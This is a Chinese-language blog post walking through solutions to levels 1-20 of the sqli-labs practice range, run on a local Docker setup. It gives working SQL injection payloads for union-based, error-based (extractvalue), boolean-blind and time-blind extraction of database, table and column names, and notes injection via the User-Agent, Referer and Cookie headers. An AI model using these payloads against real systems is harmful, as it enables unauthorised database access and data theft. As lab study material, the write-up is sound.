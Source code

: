 ```yaml
---
layout: post 
title: "sqlilab做题总结（一）"
date: 2020-07-03
author: su29029
tags: Web
---
```


## sqlilab做题总结（一）

开始重新系统学习sql注入，本地docker搭建了一个sqlilab的靶场，今天先搞1-20.

##### Less1-4

Less1-4是最简单的四种情况，采用最基本的联合查询注入即可完成。注意不同的引号/括号闭合方式。主要有Less1:单引号闭合型，Less2:无任何引号or括号(数字型)，Less3:单引号加括号，Less4:双引号加括号。

主要注入payload(以Less1为例)：

```sql
?id=-1' union select 1,2,3 %23 # 判断显示位，本题为3列，其中第二列为Login name,第三列为password
```

```sql
?id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23 # 数据库名
```

```sql
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),3 %23 # 数据表名
```

```sql
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX"),3 %23 # 列名
```

##### Less5-10

这六个题主要考察报错注入和盲注(当然也可以全部盲注)，同样注意引号/括号闭合方式的不同。

Less5-6可以采用extractvalue,updatexml进行报错注入：(以Less5为例)

```sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select database())))) %23 # 数据库名
```

````sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select group_concat(table_name) from information_schema.tables where table_schema="security")))) %23 # 数据表名
````

```sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX")))) %23 # 列名
```

Less7-8可以采用布尔盲注，写脚本完成。主要借助ascii()函数，substr()等字符串处理函数，if，case when等条件语句，通过对某个目标项的某一位是否等于某个值来进行判断。

以less7为例(注意闭合方式为```'))```,通过修改start和value的值，一位一位判断database()返回的字符串的每一位的字符是什么，从而达到获取结果的目的。

```sql
?id=1'))and if(ascii(substr(database(),{start},1))={value},1,0) %23 # 数据库名
```

```sql
?id=1'))and if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema="security",{start},1))={value},1,0) %23 # 表名
```

```sql
?id=1'))and if(ascii(substr(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX",{start},1))={value},1,0) %23   # 列名
```

Less9-10采用时间盲注，思路与7，8相似，不过这次改成了通过判断网页响应时间长短来确定我们盲注的结果是否正确。具体方法即如果判断正确则延迟5秒返回，如果判断错误则立即返回。

以Less9为例：

```sql
?id=1' and if(ascii(substr(database(),{start},1))={value},sleep(5),0) %23 # 数据库名
```

```sql
?id=1' and if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema="security",{start},1))={value},sleep(5),0) %23 # 表名
```

```sql
?id=1' and if(ascii(substr(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX",{start},1))={value},sleep(5),0) %23   # 列名
```

##### Less11-14

Less11-14均可采用联合查询注入的形式(username框)，只不过变成了post，注意闭合方式和列数，具体不再赘述。

##### Less15-16

同Less7-8,采用布尔盲注完成(username框)。

##### Less17-20

Less17:username框经过测试发现存在转义，无法注入，但password框可以，虽然是update语句，同理直接闭合引号随后报错注入即可。

Less18:本题username框和password框全部存在转义，根据题目提示User-Agent请求头可以进行注入，故尝试User-Agent处闭合单引号随后报错注入。

Less19:本题提示Referer，故尝试Referer处报错注入即可。

Less20:本题提示Cookie，观察Cookie形式后尝试Cookie处报错注入即可。

